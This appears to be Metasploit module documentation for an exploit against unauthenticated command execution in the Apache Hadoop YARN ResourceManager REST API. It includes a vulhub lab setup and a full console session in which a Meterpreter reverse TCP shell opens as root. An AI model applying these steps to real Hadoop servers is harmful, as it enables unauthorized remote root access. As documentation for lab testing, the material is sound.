 ## Description  

This module exploits an unauthenticated command execution vulnerability in Apache Hadoop through ResourceManager REST API.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

## Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d` 


## Verification Steps  

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios  

```
msf5 > use exploit/linux/http/hadoop_unauth_exec 
msf5 exploit(linux/http/hadoop_unauth_exec) > show options 

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141 
rhost => 192.168.77.141        
msf5 exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/http/hadoop_unauth_exec) > show options 

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141 
lhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > exploit 

[*] Started reverse TCP handler on 192.168.77.141:4444 
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
```